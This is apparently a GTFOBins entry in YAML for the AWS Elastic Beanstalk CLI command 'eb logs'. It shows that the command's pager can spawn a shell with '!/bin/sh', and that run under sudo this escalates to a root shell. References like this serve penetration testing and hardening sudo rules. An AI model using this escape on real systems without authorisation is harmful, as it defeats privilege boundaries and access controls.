 ```yaml
---
description: This invokes the default logging service, which is likely to be [`journalctl`](/gtfobins/journalctl/), other functions may apply. For this to work the target must be connected to AWS instance via EB-CLI. 
functions:
  shell:
      code: |
        eb logs
        !/bin/sh
  sudo:
      code: |
        sudo eb logs
        !/bin/sh
---
```

